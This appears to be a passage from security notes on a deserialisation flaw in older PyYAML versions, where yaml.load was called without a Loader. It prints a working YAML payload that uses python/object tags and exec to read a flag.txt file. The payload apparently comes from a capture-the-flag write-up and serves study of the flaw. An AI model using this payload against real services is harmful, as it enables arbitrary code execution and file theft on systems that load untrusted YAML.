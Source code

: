 **Old versions** of pyyaml were vulnerable to deserialisations attacks if you **didn't specify the Loader** when loading something: `yaml.load(data)`

You can find the  [**description of the vulnerability here**](https://hackmd.io/@defund/HJZajCVlP)**.** The proposed **exploit** in that page is:
```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
state:
update: !!python/name:exec
```